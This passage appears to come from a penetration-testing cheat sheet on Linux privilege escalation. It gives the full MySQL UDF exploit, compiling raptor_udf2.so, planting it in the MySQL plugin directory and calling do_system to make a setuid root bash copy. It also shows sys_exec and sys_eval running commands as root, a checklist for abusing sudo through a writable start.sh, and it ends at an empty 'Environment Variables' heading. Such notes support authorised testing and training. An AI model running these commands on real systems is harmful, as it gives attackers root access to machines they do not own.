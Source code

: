 #### MySQL Privilege Escalation

**MYSQL UDF Exploit:** [https://www.exploit-db.com/exploits/1518](https://www.exploit-db.com/exploits/1518)

```bash
# Compile shared object
gcc -g -c raptor_udf2.c -fPIC
gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o

# In MySQL
mysql -u root
use mysql;
create table foo(line blob);
insert into foo values(load_file('/home/raptor_udf2.so'));
select * from foo into dumpfile '/usr/lib/mysql/plugin/raptor_udf2.so';
create function do_system returns integer soname 'raptor_udf2.so';
select do_system('cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash');
exit;

# Execute shell
user@target$ /tmp/rootbash -p
```

**MYSQL running as root:**

```sql
mysql -u root
select sys_exec('whoami');
select sys_eval('whoami');

/* If function doesnt exist, create the function */
CREATE FUNCTION sys_eval RETURNS string SONAME 'lib_mysqludf_sys.so';

-- if NULL returns, try redirecting the errors
select sys_eval('ls /root 2>&1');
```

#### Sudo Abuse

1.  Check `sudo -l`

    ```bash
    $ sudo -l
    [sudo] password for appadmin:
    User appadmin may run the following commands on this host:
        (root) /opt/Support/start.sh
    ```
2. **Checklist**
   * [ ] Write permission to `start.sh`?
   * [ ] Write permission to the `/opt/support` directory?
   * [ ] Create `start.sh` if it doesn't exist?

#### Environment Variables
